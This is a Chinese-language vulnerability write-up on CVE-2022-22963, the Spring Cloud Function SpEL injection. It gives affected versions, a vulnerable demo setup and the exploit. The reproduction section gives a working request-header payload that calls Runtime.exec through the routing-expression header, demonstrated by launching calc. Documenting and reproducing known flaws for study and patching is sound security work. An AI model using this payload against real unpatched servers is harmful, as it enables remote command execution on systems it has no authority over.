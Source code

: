 title: CVE-2022-22963 SpringCloud Function SpEL RCE
author: bmth
tags:
  - CVE-2022-22963
categories:
  - java
date: 2023-04-18 17:09:00
top_img: https://img-blog.csdnimg.cn/9ccea6a57c3349efb45eaa7b6acbe5f6.png
cover: https://img-blog.csdnimg.cn/9ccea6a57c3349efb45eaa7b6acbe5f6.png
---
![](https://img-blog.csdnimg.cn/9ccea6a57c3349efb45eaa7b6acbe5f6.png)

Spring Cloud Function 是基于 Spring Boot 的函数计算框架。该项目致力于促进函数为主的开发单元，它抽象出所有传输细节和基础架构，并提供一个通用的模型，用于在各种平台上部署基于函数的软件

由于Spring Cloud Function中RoutingFunction类的apply方法将请求头中的`spring.cloud.function.routing-expression`参数作为Spel表达式进行处理，造成了Spel表达式注入漏洞，攻击者可利用该漏洞远程执行任意代码

官方通告：[https://spring.io/security/cve-2022-22963](https://spring.io/security/cve-2022-22963)

影响版本：
- 3.0.0.RELEASE <= Spring Cloud Function <= 3.1.6
- Spring Cloud Function <= 3.2.2

不受影响版本：
- Spring Cloud Function 3.1.7
- Spring Cloud Function 3.2.3

## 环境搭建
可以借助Spring Initializr快速构建一个Demo，访问官网：[https://start.spring.io/](https://start.spring.io/)，然后ADD DEPENDENCIES添加 Function 和 Spring Web
![](https://img-blog.csdnimg.cn/1a723d6ab3054e0c98fc53b03b6b4da7.png)

修改pom.xml切换到存在漏洞的版本即可
```xml
<dependency>
	<groupId>org.springframework.cloud</groupId>
	<artifactId>spring-cloud-function-context</artifactId>
	<version>3.2.0</version>
</dependency>

<dependency>
	<groupId>org.springframework.cloud</groupId>
	<artifactId>spring-cloud-starter-function-web</artifactId>
	<version>3.2.0</version>
</dependency>
```


## 漏洞复现
使用特定的路由`/functionRouter`，然后在header处加入payload
```java
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("calc")
```
![](https://img-blog.csdnimg.cn/d952809701554687b66b1ecc39635fd2.png)
